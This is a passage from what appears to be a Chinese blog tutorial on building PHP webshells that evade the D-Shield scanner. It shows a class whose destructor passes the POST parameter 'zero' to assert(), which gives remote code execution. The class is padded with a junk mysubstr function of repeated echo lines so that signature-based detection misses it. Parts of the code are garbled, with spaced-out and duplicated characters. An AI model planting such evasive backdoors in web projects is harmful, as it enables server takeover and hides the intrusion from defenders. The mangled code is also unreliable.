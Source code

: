 for (; $start < $end; $start ++) {  
$result .= s t r i n g \[ string\[ string\[start\];  
}  
return $result;  
}  
?>![在这里插入图片描述](https://img-blog.csdnimg.cn/1c520973e7cf4cd6a33de656b08bbd79.png)  
看到这里大家可能也很奇怪 这里都没用到mysubstr函数 放上去不是多此一举吗

不好意思 恰恰不是 我们可以去掉这个函数 用D盾杀一下

-   <?php

class pure  
{  
public $a = ‘’;  
function \_\_destruct(){

```
assert("$this->a");
```

}  
}  
$b = new pure;  
$b->a = $\_POST\[‘zero’\];  
?>![在这里插入图片描述](https://img-blog.csdnimg.cn/5a6ed00ec6124ba5839bd812b803ef13.png)  
怎么样 是不是很有趣

这里放这堆代码并不是为了真的用它 而是为了过D盾的特征查杀 所以放什么函数是无所谓的。

比如这样：

-   <?php

class pure  
{  
public $a = ‘’;  
function \_\_destruct(){

```
assert("$this->a");
```

}  
}  
$b = new pure;  
$b->a = P O S T \[ ′ z e r o ′ \] ; f u n c t i o n m y s u b s t r ( \_POST\['zero'\]; function mysubstr( POST\[′zero′\];functionmysubstr(a,$b) {  
echo “?sasasjajksjka”;  
echo “?sasasjajksjka”;  
echo “?sasasjajksjka”;  
echo “?sasasjajksjka”;  
echo “?sasasjajksjka”;  
echo “?sasasjajksjka”;  
echo “?sasasjajksjka”;  
echo “?sasasjajksjka”;  
}  
?>![在这里插入图片描述](https://img-blog.csdnimg.cn/b50a7aca77584429bac2240136fc2878.png)

## 0x04：写在后面

这里只介绍了重写substr函数 那么其他的函数可以吗 当然可以